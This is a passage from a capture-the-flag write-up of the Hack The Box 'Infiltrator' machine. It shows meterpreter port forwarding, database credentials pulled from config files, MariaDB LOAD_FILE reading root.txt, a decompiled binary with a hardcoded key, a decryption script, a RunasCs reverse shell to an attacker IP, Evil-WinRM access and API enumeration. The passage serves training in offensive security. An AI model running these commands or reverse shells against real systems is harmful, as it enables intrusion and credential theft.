    tcp    127.0.0.1:14121       127.0.0.1:49791       ESTABLISHED  0     0      6184/OMServerService.exe
    tcp    127.0.0.1:14121       127.0.0.1:59184       ESTABLISHED  0     0      6184/OMServerService.exe
    tcp    127.0.0.1:49702       127.0.0.1:389         ESTABLISHED  0     0      3036/ismserv.exe
    tcp    127.0.0.1:49704       127.0.0.1:389         ESTABLISHED  0     0      3036/ismserv.exe
    tcp    127.0.0.1:49767       127.0.0.1:389         ESTABLISHED  0     0      2684/Microsoft.ActiveDirect
    tcp    127.0.0.1:49791       127.0.0.1:14121       ESTABLISHED  0     0      6364/OutputMessenger.exe
    tcp    127.0.0.1:50344       127.0.0.1:389         ESTABLISHED  0     0      2684/Microsoft.ActiveDirect
    tcp    127.0.0.1:50492       127.0.0.1:389         ESTABLISHED  0     0      2684/Microsoft.ActiveDirect
    tcp    127.0.0.1:59184       127.0.0.1:14121       ESTABLISHED  0     0      8180/OutputMessenger.exe
    tcp    127.0.0.1:61374       127.0.0.1:389         ESTABLISHED  0     0      2992/dns.exe
    tcp6   :::80                 :::*                  LISTEN       0     0      4/System
    tcp6   :::88                 :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::135                :::*                  LISTEN       0     0      896/svchost.exe
    tcp6   :::445                :::*                  LISTEN       0     0      4/System
    tcp6   :::464                :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::593                :::*                  LISTEN       0     0      896/svchost.exe
    tcp6   :::3389               :::*                  LISTEN       0     0      60/svchost.exe
    tcp6   :::5985               :::*                  LISTEN       0     0      4/System
    tcp6   :::9389               :::*                  LISTEN       0     0      2684/Microsoft.ActiveDirecto
    tcp6   :::14118              :::*                  LISTEN       0     0      6184/OMServerService.exe
    tcp6   :::14122              :::*                  LISTEN       0     0      6184/OMServerService.exe
    tcp6   :::14123              :::*                  LISTEN       0     0      4/System
    tcp6   :::14125              :::*                  LISTEN       0     0      4/System
    tcp6   :::14126              :::*                  LISTEN       0     0      4036/outputmessenger_httpd.e
    tcp6   :::14127              :::*                  LISTEN       0     0      6184/OMServerService.exe
    tcp6   :::14128              :::*                  LISTEN       0     0      6184/OMServerService.exe
    tcp6   :::14130              :::*                  LISTEN       0     0      6184/OMServerService.exe
    tcp6   :::14406              :::*                  LISTEN       0     0      5928/outputmessenger_mysqld.
    tcp6   :::47001              :::*                  LISTEN       0     0      4/System
    tcp6   :::49664              :::*                  LISTEN       0     0      468/wininit.exe
    tcp6   :::49665              :::*                  LISTEN       0     0      1272/svchost.exe
    tcp6   :::49666              :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::49667              :::*                  LISTEN       0     0      1560/svchost.exe
    tcp6   :::49671              :::*                  LISTEN       0     0      2344/svchost.exe
    tcp6   :::49692              :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::49693              :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::49698              :::*                  LISTEN       0     0      616/lsass.exe
    tcp6   :::49705              :::*                  LISTEN       0     0      608/services.exe
    tcp6   :::49727              :::*                  LISTEN       0     0      2992/dns.exe
    tcp6   :::49750              :::*                  LISTEN       0     0      2516/certsrv.exe
    tcp6   :::50603              :::*                  LISTEN       0     0      2944/dfsrs.exe
    tcp6   ::1:53                :::*                  LISTEN       0     0      2992/dns.exe
    tcp6   ::1:445               ::1:50507             ESTABLISHED  0     0      4/System
    tcp6   ::1:49666             ::1:50615             ESTABLISHED  0     0      616/lsass.exe
    tcp6   ::1:49666             ::1:59315             ESTABLISHED  0     0      616/lsass.exe
    tcp6   ::1:50487             ::1:9389              TIME_WAIT    0     0      0/[System Process]
    tcp6   ::1:50497             ::1:9389              TIME_WAIT    0     0      0/[System Process]
    tcp6   ::1:50507             ::1:445               ESTABLISHED  0     0      4/System
    tcp6   ::1:50615             ::1:49666             ESTABLISHED  0     0      2944/dfsrs.exe
    tcp6   ::1:59315             ::1:49666             ESTABLISHED  0     0      616/lsass.exe
    udp    0.0.0.0:123           0.0.0.0:*                          0     0      276/svchost.exe
    udp    0.0.0.0:389           0.0.0.0:*                          0     0      616/lsass.exe
    udp    0.0.0.0:500           0.0.0.0:*                          0     0      2736/svchost.exe
    udp    0.0.0.0:3389          0.0.0.0:*                          0     0      60/svchost.exe
    udp    0.0.0.0:4500          0.0.0.0:*                          0     0      2736/svchost.exe
    udp    0.0.0.0:5353          0.0.0.0:*                          0     0      1056/svchost.exe
    udp    0.0.0.0:5355          0.0.0.0:*                          0     0      1056/svchost.exe
    udp    0.0.0.0:14129         0.0.0.0:*                          0     0      6184/OMServerService.exe
    udp    0.0.0.0:49288         0.0.0.0:*                          0     0      2992/dns.exe
    udp    0.0.0.0:49290         0.0.0.0:*                          0     0      2992/dns.exe
    udp    0.0.0.0:49291         0.0.0.0:*                          0     0      2992/dns.exe
<--- CUT FOR BREVITY --->
    udp    0.0.0.0:51789         0.0.0.0:*                          0     0      2992/dns.exe
    udp    0.0.0.0:51790         0.0.0.0:*                          0     0      2992/dns.exe
    udp    10.129.223.154:53     0.0.0.0:*                          0     0      2992/dns.exe
    udp    10.129.223.154:88     0.0.0.0:*                          0     0      616/lsass.exe
    udp    10.129.223.154:137    0.0.0.0:*                          0     0      4/System
    udp    10.129.223.154:138    0.0.0.0:*                          0     0      4/System
    udp    10.129.223.154:464    0.0.0.0:*                          0     0      616/lsass.exe
    udp    127.0.0.1:53          0.0.0.0:*                          0     0      2992/dns.exe
    udp    127.0.0.1:51520       0.0.0.0:*                          0     0      1824/svchost.exe
    udp    127.0.0.1:52691       0.0.0.0:*                          0     0      2684/Microsoft.ActiveDirecto
    udp    127.0.0.1:53048       0.0.0.0:*                          0     0      6184/OMServerService.exe
    udp    127.0.0.1:53821       0.0.0.0:*                          0     0      2992/dns.exe
    udp    127.0.0.1:54680       0.0.0.0:*                          0     0      2516/certsrv.exe
    udp    127.0.0.1:55009       0.0.0.0:*                          0     0      1440/svchost.exe
    udp    127.0.0.1:55341       0.0.0.0:*                          0     0      3036/ismserv.exe
    udp    127.0.0.1:56570       0.0.0.0:*                          0     0      616/lsass.exe
    udp    127.0.0.1:60376       0.0.0.0:*                          0     0      4176/WmiPrvSE.exe
    udp    127.0.0.1:62933       0.0.0.0:*                          0     0      1336/svchost.exe
    udp    127.0.0.1:63409       0.0.0.0:*                          0     0      2944/dfsrs.exe
    udp6   :::123                :::*                               0     0      276/svchost.exe
    udp6   :::500                :::*                               0     0      2736/svchost.exe
    udp6   :::3389               :::*                               0     0      60/svchost.exe
    udp6   :::4500               :::*                               0     0      2736/svchost.exe
    udp6   :::49289              :::*                               0     0      2992/dns.exe
    udp6   :::51791              :::*                               0     0      1056/svchost.exe
    udp6   ::1:53                :::*                               0     0      2992/dns.exe
    udp6   ::1:49287             :::*                               0     0      2992/dns.exe
```

## Read root.txt (Unintended)

The `Output Messenger Server` directory contained three `.zip` files. One called `OutputMessengerApache.zip` the second one was `OutputMessengerMysql.zip` and the last one was named `OutputWall.zip`.

```c
meterpreter > dir
Listing: C:\ProgramData\Output Messenger Server\Temp
====================================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  15702539  fil   2024-02-19 16:51:30 +0100  OutputMessengerApache.zip
100666/rw-rw-rw-  25477937  fil   2024-02-19 16:51:52 +0100  OutputMessengerMysql.zip
100666/rw-rw-rw-  3369187   fil   2024-02-19 16:52:02 +0100  OutputWall.zip
100777/rwxrwxrwx  6554576   fil   2024-02-19 16:51:12 +0100  vcredist_x86.exe
```

We downloaded all of them and started analyzing.

```c
meterpreter > download OutputMessengerMysql.zip
[*] Downloading: OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 1.00 MiB of 24.30 MiB (4.12%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 2.00 MiB of 24.30 MiB (8.23%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 3.00 MiB of 24.30 MiB (12.35%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 4.00 MiB of 24.30 MiB (16.46%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 5.00 MiB of 24.30 MiB (20.58%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 6.00 MiB of 24.30 MiB (24.69%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 7.00 MiB of 24.30 MiB (28.81%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 8.00 MiB of 24.30 MiB (32.92%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 9.00 MiB of 24.30 MiB (37.04%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 10.00 MiB of 24.30 MiB (41.16%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 11.00 MiB of 24.30 MiB (45.27%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 12.00 MiB of 24.30 MiB (49.39%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 13.00 MiB of 24.30 MiB (53.5%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 14.00 MiB of 24.30 MiB (57.62%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 15.00 MiB of 24.30 MiB (61.73%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 16.00 MiB of 24.30 MiB (65.85%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 17.00 MiB of 24.30 MiB (69.97%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 18.00 MiB of 24.30 MiB (74.08%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 19.00 MiB of 24.30 MiB (78.2%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 20.00 MiB of 24.30 MiB (82.31%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 21.00 MiB of 24.30 MiB (86.43%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 22.00 MiB of 24.30 MiB (90.54%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 23.00 MiB of 24.30 MiB (94.66%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 24.00 MiB of 24.30 MiB (98.77%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 24.30 MiB of 24.30 MiB (100.0%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Completed  : OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
```

Since the `OutputMessengerMysql.zip` was the most promising we started with this one and immediately found `credentials` for the `database` inside the `OutputMysql.ini` and the `my.ini` files.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat OutputMysql.ini 
[SETTINGS]
SQLPort=14406
Version=1.0.0

[DBCONFIG]
DBUsername=root
DBPassword=ibWijteig5
DBName=outputwall

[PATHCONFIG]
;mysql5.6.17
MySQL=mysql
Log=log
def_conf=settings
MySQL_data=data
Backup=backup
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/mysql]
└─$ cat my.ini 
# The following options will be passed to all MySQL clients
[client]
password=ibWijteig5
port=14406
socket=/tmp/mysql.sock

# The MySQL Server Service
[mysqld]
datadir=E:/repo/OM/Server/trunk/LinkServerPro/V2/LinkServerPro/LinkServerConsole/bin/Plugins/Output/data
port=14406
socket=/tmp/mysql.sock
key_buffer_size = 16M
max_allowed_packet = 1M
sort_buffer_size = 512K
net_buffer_length = 8K
read_buffer_size = 256K
read_rnd_buffer_size = 512K
myisam_sort_buffer_size = 8M
#skip-federated
skip-slave-start
server-id       = 1
explicit_defaults_for_timestamp = TRUE
sql_mode="STRICT_TRANS_TABLES,NO_ENGINE_SUBSTITUTION"
default_storage_engine=innodb
innodb_buffer_pool_size=501M
innodb_log_file_size=50M

[mysqldump]
quick
max_allowed_packet = 16M

[mysql]
no-auto-rehash

[isamchk]
key_buffer = 20M
sort_buffer_size = 20M
read_buffer = 2M
write_buffer = 2M

[myisamchk]
key_buffer = 20M
sort_buffer_size = 20M
read_buffer = 2M
write_buffer = 2M

[mysqlhotcopy]
interactive-timeout
```

| Username | Password   |
| -------- | ---------- |
| root     | ibWijteig5 |

We forwarded port `14406` and accessed the `database` using the credentials we found.

```c
meterpreter > portfwd add -l 14406 -p 14406 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14406 -> (remote) 10.129.223.154:14406
```

```c
┌──(kali㉿kali)-[~]
└─$ mysql -h 127.0.0.1 -P 14406 -u root --skip-ssl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 4
Server version: 10.1.19-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

## root.txt

From here our team member `mk0` went for the `quick kill` and used `LOAD_FILE` to read the `root.txt` not knowing that at this point we would had skipped about `75%` of the box but since we didn't had a `shell` as `administrator`, we went for the `full pwn`. No shell is not an option.

```c
MariaDB [(none)]> SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
+----------------------------------------------------------+
| LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt') |
+----------------------------------------------------------+
| 025834ef706debf0cc43acb56eb15b2d
                       |
+----------------------------------------------------------+
1 row in set (0.094 sec)
```

## Output Messenger

The intended way included mainly the `Output Messenger` and therefore we started reading the `documentation` of the `application`.

- [https://www.outputmessenger.com/](https://www.outputmessenger.com/)
- [http://support.outputmessenger.com/connect-to-server-from-internet/](http://support.outputmessenger.com/connect-to-server-from-internet/)

A few `high ports` were used by the application to serve different services like the `Browser Version`, the `API` and to make the `Desktop Client` itself working.

```c
14121 TCP – Application
14122 TCP – File Transfer
14123 TCP – Web server for Browser Version
14124 TCP & UDP – VoIP for Voice/Video/Desktop Sharing
14125 TCP – API Access
2195   TCP – IOS Push Notification
```

```c
<--- CUT FOR BREVITY --->
TCP    127.0.0.1:14121        127.0.0.1:49794        ESTABLISHED     6324
TCP    127.0.0.1:14121        127.0.0.1:57787        ESTABLISHED     6324
<--- CUT FOR BREVITY --->
```

### Port Forwarding

We forwarded the ports through `meterpreter` again. It is necessary to stay that even the `meterpreter shell` died from time to time and each time, we needed to `re-create` the `port forwarding`.

```c
meterpreter > portfwd add -l 14121 -p 14121 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14121 -> (remote) 10.129.223.154:14121
```

### Access

To access the `application` we first installed the `Linux client` on our local `Kali` machine.

- [http://www.outputmessenger.com/lan-messenger-downloads/](http://www.outputmessenger.com/lan-messenger-downloads/)

```c
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo dpkg -i OutputMessenger_amd64.deb 
[sudo] password for kali: 
Selecting previously unselected package outputmessenger.
(Reading database ... 429494 files and directories currently installed.)
Preparing to unpack OutputMessenger_amd64.deb ...
Unpacking outputmessenger (2.0.40) ...
Setting up outputmessenger (2.0.40) ...
Processing triggers for kali-menu (2024.3.1) ...
Processing triggers for desktop-file-utils (0.27-2) ...
```

Then we needed to use `localhost` as `IP address/hostname` because the `IP address` didn't worked with different `port forwarding techniques` like `Ligolo-ng` for example. Now the previously found credentials of `K.turner` came into play.


### Enumerating Output Messenger Chat Rooms

In the `General_chat` we found an interesting message.

```c
Admin3:12 PM  
Hello everyone
There have been some complaints regarding the stability of the "Output Messenger" application. In case you encounter any issues, please make sure you are using a Windows client. The Linux version is outdated.
```

Before we fired up a `Windows` machine we forwarded port `14123/TCP` an accessed the `Browser Version` to see if we could avoid installing another client.

```c
meterpreter > portfwd add -l 14123 -p 14123 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14123 -> (remote) 10.129.223.154:14123
```


Unfortunately the answer to this was no.


We forwarded `14125/TCP` and `14126/TCP` and installed the client on our `Windows` machines as well.

```c
meterpreter > portfwd add -l 14125 -p 14125 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14125 -> (remote) 10.129.223.154:14125
meterpreter > portfwd add -l 14126 -p 14126 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14126 -> (remote) 10.129.223.154:14126
```

Then we connected to the `IP address` of our `Kali VM` from which we redirected the traffic to the box through the `meterpreter` session. No additional configuration was necessary. On `Windows` we could access the `My Wall` part of the application and gather some additional information and most importantly, `credentials`!


```c
##### Security Alert! Pre-Auth Disabled on kerberos for Some Users

Hey team,  
  
We've identified a security concern: some users and our domain (dc01.infiltrator.htb) have pre-authentication disabled on kerberos.  
No need to panic! Our vigilant team is already on it and will work diligently to fix this. In the meantime, stay vigilant and be cautious about any potential security risks.
```

```c
##### UserExplorer app project

Hey team, I'm here! In this screenshot, I'll guide you through using the app UserExplorer.exe. It works seamlessly with dev credentials, but remember, it's versatile and functions with any credentials. Currently, we're exploring the default option. Stay tuned for more updates!  
  
"UserExplorer.exe -u m.harris -p D3v3l0p3r_Pass@1337! -s M.harris"
```

| Username | Password             |
| -------- | -------------------- |
| m.harris | D3v3l0p3r_Pass@1337! |

At this point we had the real `password` of `M.harris` and so we switched to his `user context` by logging in as him.


His conversation with `Admin` showed the previously mentioned `UserExplorer.exe` binary which we downloaded for `reverse engineering` purposes.


## Reverse Engineering UserExplorer.exe

We fired up `dnSpy` and found a `hashed password` and the `key` for a user called `winrm_svc`.


```c
using System;
using System.DirectoryServices;

// Token: 0x02000003 RID: 3
internal class LdapApp
{
    // Token: 0x06000004 RID: 4 RVA: 0x0000213C File Offset: 0x0000033C
    private static void Main(string[] args)
    {
        string text = "LDAP://dc01.infiltrator.htb";
        string text2 = "";
        string text3 = "";
        string text4 = "";
        string text5 = "winrm_svc";
        string text6 = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";
        int i = 0;
        while (i < args.Length)
        {
            string text7 = args[i].ToLower();
            if (text7 != null)
            {
                if (!(text7 == "-u"))
                {
                    if (!(text7 == "-p"))
                    {
                        if (!(text7 == "-s"))
                        {
                            if (!(text7 == "-default"))
                            {
                                goto IL_C2;
                            }
                            text2 = text5;
                            text3 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", text6);
                        }
                        else
                        {
                            text4 = args[i + 1];
                        }
                    }
                    else
                    {
                        text3 = args[i + 1];
                    }
                }
                else
                {
                    text2 = args[i + 1];
                }
                i += 2;
                continue;
            }
            IL_C2:
            Console.WriteLine(string.Format("Invalid argument: {0}", args[i]));
            return;
        }
        if (string.IsNullOrEmpty(text2) || string.IsNullOrEmpty(text3) || string.IsNullOrEmpty(text4))
        {
            Console.WriteLine("Usage: UserExplorer.exe -u <username> -p <password>  -s <searchedUsername> [-default]");
            Console.WriteLine("To use the default credentials: UserExplorer.exe -default -s userToSearch");
            return;
        }
        try
        {
            Console.WriteLine("Attempting Service Connection...");
            using (DirectoryEntry directoryEntry = new DirectoryEntry(text, text2, text3))
            {
                Console.WriteLine("Service Connection Successful.");
                using (DirectorySearcher directorySearcher = new DirectorySearcher(directoryEntry))
                {
                    directorySearcher.Filter = string.Format("(SAMAccountName={0})", text4);
                    Console.WriteLine(string.Format("Search for {0} user...", text4));
                    SearchResult searchResult = directorySearcher.FindOne();
                    if (searchResult != null)
                    {
                        Console.WriteLine("User found. Details:");
                        DirectoryEntry directoryEntry2 = searchResult.GetDirectoryEntry();
                        Console.WriteLine(string.Format("Name: {0}", directoryEntry2.Properties["cn"].Value));
                        Console.WriteLine(string.Format("EmailID: {0}", directoryEntry2.Properties["mail"].Value));
                        Console.WriteLine(string.Format("Telephone Extension: {0}", directoryEntry2.Properties["telephoneNumber"].Value));
                        Console.WriteLine(string.Format("Department: {0}", directoryEntry2.Properties["department"].Value));
                        Console.WriteLine(string.Format("Job Title: {0}", directoryEntry2.Properties["title"].Value));
                    }
                    else
                    {
                        Console.WriteLine("User not found.");
                    }
                }
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine(string.Format("An error occurred: {0}", ex.Message));
        }
    }
}

```

## Privilege Escalation to winrm_svc

### Password Decryption

With the support of our `artifical intelligence team member` we build a script to `decrypt` the `AES CBC` encrypted password.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat decrypter.py 
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64


key = 'b14ca5898a4e4133bbce2ea2315a1916'
encrypted_value = 'TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE='

def decryption(key: str, encrypted_value: str) -> str:
    key_bytes = key.encode()
    if len(key_bytes) not in {16, 24, 32}:
        raise ValueError("Invalid key length")
    
    decryptor = Cipher(algorithms.AES(key_bytes), modes.CBC(b'\x00' * 16), backend=default_backend()).decryptor()
    return (decryptor.update(base64.b64decode(encrypted_value)) + decryptor.finalize()).decode()


print("[+] Decrypted value: " + decryption(key,decryption(key, encrypted_value)))
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ python3 decrypter.py
[+] Decrypted value: WinRm@$svc^!^P
```

| Username  | Password       |
| --------- | -------------- |
| winrm_svc | WinRm@$svc^!^P |

### Spawning Reverse Shell as winrm_svc

With the power of `RunasCs` by `Antonio Coco` we successfully `escalated our privileges` to `winrm_svc`.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```c
C:\temp>RunasCs.exe winrm_svc "WinRm@$svc^!^P" cmd.exe -r 10.10.14.72:8999
RunasCs.exe winrm_svc "WinRm@$svc^!^P" cmd.exe -r 10.10.14.72:8999
[*] Warning: The logon for user 'winrm_svc' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3e85374$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4932 created in background.
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8999
listening on [any] 8999 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.223.154] 59172
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Alternatively `Evil-WinRM` worked too like the username indicated.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P'   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

## Pivoting (winrm_svc)

After the basic `whoami /all` check we headed back to the `Output Messenger` application.

```c
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name             SID                                           
===================== ==============================================
infiltrator\winrm_svc S-1-5-21-2606098828-3734741516-3625406802-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Service_Management             Group            S-1-5-21-2606098828-3734741516-3625406802-1116 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Logging in as `winrm_svc` showed us an `API key` for `lan_managment`.
\


```c
lan_managment  api key 558R501T5I6024Y8JV3B7KOUN1A518GG
```

| API Key                          |
| -------------------------------- |
| 558R501T5I6024Y8JV3B7KOUN1A518GG |

The conversation between `winrm_svc` and `O.martinez` revealed that `O.martinez` noticed a `strange behavior of the application` and also that he shared his password within the `Chiefs_Marketing_chat` group.


Another user `A.walker` requested access to the same group which we took as hint for the next step.


## API Enumeration

After a lot more reading of the `Output Messenger` documentation and especially the `API part` of it, we started enumerating the `API` through port `14125/TCP` by adding the `API-KEY:` value in the `HTTP header`.

- [https://support.outputmessenger.com/authentication-api/](https://support.outputmessenger.com/authentication-api/)

We started with the `users` and then took a closer look on the `chatrooms`.

- [http://localhost:14125/](http://localhost:14125/)

```
GET /api/users HTTP/1.1
Host: localhost:14125
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 0
API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG


```


```c
HTTP/1.1 200 OK
Content-Length: 2114
Content-Type: application/json; charset=utf-8
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 01 Sep 2024 17:35:32 GMT

{"rows":[{"user":"admin","displayname":"Admin","group":"Administration","role":"A","email":"","phone":"","title":"","status":"online"},{"user":"D.anderson","displayname":"D.anderson","group":"Marketing Team","role":"U","email":"anderson@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"L.clark","displayname":"L.clark","group":"Marketing Team","role":"U","email":"clark@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"M.harris","displayname":"M.harris","group":"Developers","role":"U","email":"harris@infiltrator.htb","phone":"+0 123 443 699","title":"Developer","status":"offline"},{"user":"O.martinez","displayname":"O.martinez","group":"Others","role":"U","email":"martinez@infiltrator.htb","phone":"","title":"Chief Marketing Officer","status":"online"},{"user":"A.walker","displayname":"A.walker","group":"Others","role":"U","email":"walker@infiltrator.htb","phone":"","title":"Co Founder","status":"offline"},{"user":"K.turner","displayname":"K.turner","group":"QA Testers","role":"U","email":"turner@infiltrator.htb","phone":"","title":"QA Tester","status":"offline"},{"user":"E.rodriguez","displayname":"E.rodriguez","group":"Digital Influencer Marketing","role":"U","email":"rodriguez@infiltrator.htb","phone":"+0 123 443 699","title":"Digital Influencer","status":"offline"},{"user":"winrm_svc","displayname":"winrm_svc","group":"Management and Security","role":"U","email":"winrm_svc@infiltrator.htb","phone":"+0 123 443 699","title":"Services Managment","status":"online"},{"user":"Developer_01","displayname":"Developer_01","group":"Developers","role":"U","email":"Developer_01@infiltrator.htb","phone":"","title":"Developer","status":"offline"},{"user":"Developer_02","displayname":"Developer_02","group":"Developers","role":"U","email":"Developer_02@infiltrator.htb","phone":"","title":"Developer_02","status":"offline"},{"user":"Developer_03","displayname":"Developer_03","group":"Developers","role":"U","email":"Developer_03@infiltrator.htb","phone":"","title":"Developer_03","status":"offline"}],"success":true}
```

```c
GET /api/chatrooms HTTP/1.1
Host: localhost:14125
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 0
API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG


```

